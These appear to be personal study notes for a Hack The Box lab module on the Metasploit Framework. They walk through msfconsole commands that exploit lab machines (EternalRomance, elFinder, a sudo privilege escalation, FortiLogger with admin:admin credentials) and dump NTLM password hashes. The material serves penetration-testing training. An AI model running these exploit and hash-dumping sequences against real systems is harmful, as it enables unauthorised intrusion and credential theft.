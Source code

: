 # Using Metasploit Framework

## Metasploit Project

a) Metasploit Framework -> Free, open-source, community driven

b) Metasploit PRO -> Paid, Commercial use, enterprise oriented

### Architecture

Modules (/usr/share/metasploit-framework/modules)

Plugins (/usr/share/metasploit-framework/plugins/)

Scripts (/usr/share/metasploit-framework/scripts/)

Tools (/usr/share/metasploit-framework/tools/)



### Intro to msfconsole (free)

Launching -> `msfconsole` or `msfconsole -q` (without banner)

Modules -> prepared scripts to exploits

* Syntax -> \<type>/\<os>/\<service>/\<name>&#x20;
  * exploit/windows/ftp/scriptftp\_list
* Search -> `help search` f.e.: `search eternalromance`
* Specific search -> `search type:exploit platform:windows cve:2021 rank:excellent microsoft`
* `Module selection -> nmap -sV <IP> ->` ![](<.gitbook/assets/image (17).png>)
  * `search ms17_010 -> use 0 -> options -> info`
    * `set RHOSTS <IP>... run`

#### Example of usage

`nmap -sVC 10.129.2.141`

`msfconsole -q`

`search eternalromance`

`options`

`set RHOSTS 10.129.2.141`

`set LHOST 10.10.14.153`

`run`

find flag.txt

### Payloads

refers to a module that aids the exploit in returning a shell to the attacker

* exploit -> finds the vuln service
* payload -> establishes a foothold

#### Example of usage

`nmap -sVC 10.129.152.95`

`msfconsole -q`

`search Apache druid`

`use 0`

`options`

`set LHOST 10.10.14.153`

`set RHOSTS 10.129.152.95`

`run`

find flag.txt



## MSF Sessions



### Sessions & Jobs usage

The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?

`nmap -sVC 10.129.79.219`

elFinder



Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

`msfconsole -q`

`search elfinder`

`use 3`

`set LHOST, RHOSTS`

`run`

`shell`

`whoami` -> www-data



The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.

`shell`

`sudo -V` -> version 1.8.31

msf -> `sessions`

msf -> `search sudo 1.8.31`

`use 0`

`set LHOST, SESSION`

`run`

`cd root`

`cat flag.txt`

{% embed url="https://www.youtube.com/watch?v=we0cYx37lMo" %}

### Meterpreter

* meterpreter payload is a specific type of multi-faceted extensible payload that uses DLL injection to establish connection
* difficult to detect using simple checks, can be configured to be persistent across reboots or system changes...
* resides entirely in the memory of the remote host...leaves no traces on HDD
* "swiss army knife of pentesting"



#### Questions

Given IP: `10.129.203.65`

1. Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

`sudo service postgresql status`

`sudo systemctl start postgresql`

`sudo msfdb init`

`sudo msfdb status`

`sudo msfdb run`

msf -> `db_nmap -sV -p- -T5 -A 10.129.203.65`

<figure><img src=".gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

msf -> `hosts`

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

msf -> `services`

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

5000 -> HTTP -> go to website 10.129.203.65:5000

* it is running FORTILOGGER
* tried credentials admin:admin -> worked

msf -> `search FortiLogger`

msf -> `use 0`

msf -> `set LHOST tun0`

msf -> `set RHOSTS 10.129.203.65`

msf -> `run`

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`shell`

`whoami`

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

ANSWER: **`nt authority\system`**

2. Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.

msf -> `exit`

msf -> `run post/windows/gather/hashdump`

<figure><img src=".gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
